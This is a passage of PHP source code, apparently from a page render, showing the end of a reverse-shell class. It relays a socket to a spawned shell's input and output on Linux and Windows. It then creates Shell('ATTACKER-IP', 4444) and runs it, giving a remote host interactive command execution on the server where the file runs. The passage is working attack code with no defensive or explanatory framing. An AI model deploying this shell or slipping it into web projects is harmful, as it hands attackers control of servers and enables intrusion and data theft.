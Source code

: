 ```pHP
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('ATTACKER-IP', 4444);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```
